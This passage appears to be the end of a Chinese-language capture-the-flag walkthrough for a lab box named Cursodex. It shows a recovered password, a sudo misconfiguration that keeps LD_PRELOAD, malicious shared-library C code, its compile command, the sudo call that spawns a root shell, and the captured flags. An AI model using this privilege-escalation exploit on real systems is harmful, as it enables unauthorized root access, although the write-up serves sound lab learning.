 得到密码：**CIBERPOLLO**

## 权限确认

使用密码切换到 agent 用户（从 www-data）：

```bash
www-data@Cursodex:/tmp$ su agent
Password: CIBERPOLLO
agent@Cursodex:/tmp$ sudo -l
[sudo] contraseña para agent: CIBERPOLLO
Matching Defaults entries for agent on Cursodx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

Runas and Command-specific defaults for agent:
    Defaults!/bin/date env_keep+=LD_PRELOAD

User agent may run the following commands on Cursodex:
    (ALL) PASSWD: /bin/date
```

## LD_PRELOAD 提权

发现关键配置：`Defaults!/bin/date env_keep+=LD_PRELOAD`

这意味着执行 `/bin/date` 时会保留 `LD_PRELOAD` 环境变量，可以利用共享库劫持。

### 编写恶意共享库

```bash
agent@Cursodx:/tmp$ cat > /tmp/shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF
```

### 编译共享库

```bash
agent@Cursodx:/tmp$ gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
```

### 执行提权

```bash
agent@Cursodx:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /bin/date
root@Cursodx:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)
```

# 八、获取 Flag

```bash
root@Cursodx:/tmp# cat /root/root43c1f.txt /home/agent/user.txt 
8cdf686fc735dc9057093064654e610c
117ef35c4571e5da394c43c1fa27e877
```

